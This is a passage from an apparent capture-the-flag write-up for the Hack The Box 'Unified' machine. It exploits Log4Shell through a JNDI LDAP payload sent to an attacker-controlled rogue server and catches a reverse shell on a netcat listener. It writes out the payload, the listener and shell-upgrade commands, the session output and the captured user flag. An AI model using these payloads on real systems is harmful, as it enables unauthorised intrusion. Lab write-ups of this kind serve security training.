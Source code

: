 ![[Pasted image 20241019163358.png]]
![[Pasted image 20241019163514.png]]

Now that the server is listening locally on `port 389`, let's open another terminal and start a Netcat listener to capture the reverse shell (on our chosen port `6565`).
`nc -lvp 6565`

Going back to our intercepted POST request, we change the payload to
`${jndi:ldap://{Your Tun0 IP}:{Port of Running RogueJndi}/o=tomcat}`
and click `Send`.

`"${jndi:ldap://10.10.14.39:1389/o=tomcat}",`

After sending the request, a connection to our rogue server is received and the following message is shown:

	Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload

Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can upgrade the terminal shell using the following command.
`script /dev/null -c bash`

The above command will turn our shell into an interactive shell that will allow us to interact with the system more effectively.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.39]─[scrage@htb-p1ru2f4g72]─[~]
	└──╼ [★]$ nc -nlvp 6565
	listening on [any] 6565 ...
	connect to [10.10.14.39] from (UNKNOWN) [10.129.146.8] 40598
	script /dev/null -c bash
	Script started, file is /dev/null
	unifi@unified:/usr/lib/unifi$ whoami
	whoami
	unifi
	unifi@unified:/usr/lib/unifi$ id
	id
	uid=999(unifi) gid=999(unifi) groups=999(unifi)

The user flag is in the `home/` directory.

	cd /home
	unifi@unified:/home$ ls
	ls
	michael
	unifi@unified:/home$ cd /home/michael
	cd /home/michael
	unifi@unified:/home/michael$ ls
	ls
	user.txt
	unifi@unified:/home/michael$ cat user.txt
	cat user.txt
	6ced1a6a89e666c0620cdb10262ba127

**User flag exfiltrated:** `6ced1a6a89e666c0620cdb10262ba127`
